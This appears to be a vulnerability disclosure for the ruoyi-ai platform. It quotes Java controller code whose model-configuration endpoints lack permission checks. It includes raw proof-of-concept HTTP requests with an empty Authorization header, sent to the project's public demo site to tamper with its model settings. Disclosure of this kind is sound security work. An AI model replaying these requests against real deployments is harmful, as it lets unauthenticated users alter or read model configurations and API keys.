# Vulnerability Description

The SysModelController component of the open source full-stack AI development platform project "[ageerle/ruoyi-ai](https://github.com/ageerle/ruoyi-ai)" has an unauthorized access vulnerability. Attackers can add, delete, modify and query the system's large model configuration without any access credentials.

- Vulnerability Discloser: [Tr0e](https://github.com/Tr0e)
  
- Vendors:  [GitHub-ageerle/ruoyi-ai](https://github.com/ageerle/ruoyi-ai)
  
- Source code address： [GitHub-ageerle/ruoyi-ai](https://github.com/ageerle/ruoyi-ai)
  

- Related reports online link: https://github.com/ageerle/ruoyi-ai/issues/43
  

Since the author did not release the Release package, I cannot distinguish the version number. I performed security testing based on the latest code of 20250329. Note: **This vulnerability was discovered automatically by my AI code audit tool**.

# Vulnerability Analysis

The vulnerability code entry point is located at：

https://github.com/ageerle/ruoyi-ai/blob/main/ruoyi-modules/ruoyi-system/src/main/java/org/ruoyi/system/controller/system/SysModelController.java

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
//ruoyi-ai/ruoyi-modules/ruoyi-system/rc/main/java/org/ruoyi/system/controller/system/SysModelController.java
    /**
     * 查询系统模型列表 - 全部
     */
    @GetMapping("/list")
    public TableDataInfo<SysModelVo> list(SysModelBo bo, PageQuery pageQuery) {
        return sysModelService.queryPageList(bo, pageQuery);
    }

    /**
     * 导出系统模型列表
     */
    @Log(title = "系统模型", businessType = BusinessType.EXPORT)
    @PostMapping("/export")
    public void export(SysModelBo bo, HttpServletResponse response) {
        List<SysModelVo> list = sysModelService.queryList(bo);
        ExcelUtil.exportExcel(list, "系统模型", SysModelVo.class, response);
    }

    /**
     * 新增系统模型
     */
    @Log(title = "系统模型", businessType = BusinessType.INSERT)
    @PostMapping()
    public R<Void> add(@Validated(AddGroup.class) @RequestBody SysModelBo bo) {
        return toAjax(sysModelService.insertByBo(bo));
    }

    /**
     * 修改系统模型
     */
    @Log(title = "系统模型", businessType = BusinessType.UPDATE)
    @RepeatSubmit()
    @PutMapping()
    public R<Void> edit(@Validated(EditGroup.class) @RequestBody SysModelBo bo) {
        return toAjax(sysModelService.updateByBo(bo));
    }

    /**
     * 删除系统模型
     *
     * @param ids 主键串
     */
    @SaCheckPermission("system:model:remove")
    @Log(title = "系统模型", businessType = BusinessType.DELETE)
    @DeleteMapping("/{ids}")
    public R<Void> remove(@NotEmpty(message = "主键不能为空")
                          @PathVariable Long[] ids) {
        return toAjax(sysModelService.deleteWithValidByIds(List.of(ids), true));
    }
```
Although this system authenticates sensitive API interfaces to prevent unauthorized access, the above API interfaces for adding, deleting, modifying and checking large models can be accessed by unauthorized persons.

Attackers can access the above API interfaces effortlessly, damaging the confidentiality, integrity and availability of the system.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file. Or directly visit the public demonstration site provided by the author: https://admin.pandarobot.chat/ .

Let's take the API interface for modifying model configuration as an example, the vulnerability proof of concept (POC) is as follows:

```js
PUT /prod-api/system/model HTTP/2
Host: admin.pandarobot.chat
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh_CN
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=utf-8
Authorization: 
Clientid: 
Content-Length: 212
Origin: https://admin.pandarobot.chat
Referer: https://admin.pandarobot.chat/operate/model
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"modelShow":"0","modelType":"2","id":"1781709495515783171","modelName":"gpt-4-all","modelDescribe":"gpt-4-hhh","modelPrice":0,"apiHost":"https://api.pandarobot.chat/","apiKey":"sk-xx","remark":"My name is Tr0e"}
```

It can be seen that when the Authorization field is empty and there is no other authentication credentials, we can successfully access the interface:

![Image](https://github.com/user-attachments/assets/1d20c8ce-3f79-4de1-8dc0-106c162350e7)

At this time, calling the API that can be accessed without authorization to query the model information, we can find that we have successfully tampered with the data:

```java
GET /prod-api/system/model/list HTTP/2
Host: admin.pandarobot.chat
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh_CN
Accept-Encoding: gzip, deflate, br
Authorization: 
Clientid: 
Referer: https://admin.pandarobot.chat/system/role
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

![Image](https://github.com/user-attachments/assets/5c51f7ff-5063-4af7-9a77-cabb06be0297)

![Image](https://github.com/user-attachments/assets/be40fcca-58ac-4e8c-a026-7f79b074e448)

Finally, I would like to take the API interface for querying system roles as an example to prove that other sensitive APIs in this system have undergone security authentication.

![Image](https://github.com/user-attachments/assets/d1834af8-0ffc-405c-8845-f3878fb60fff)

# Security Suggestions

Add permission control to relevant API interfaces.
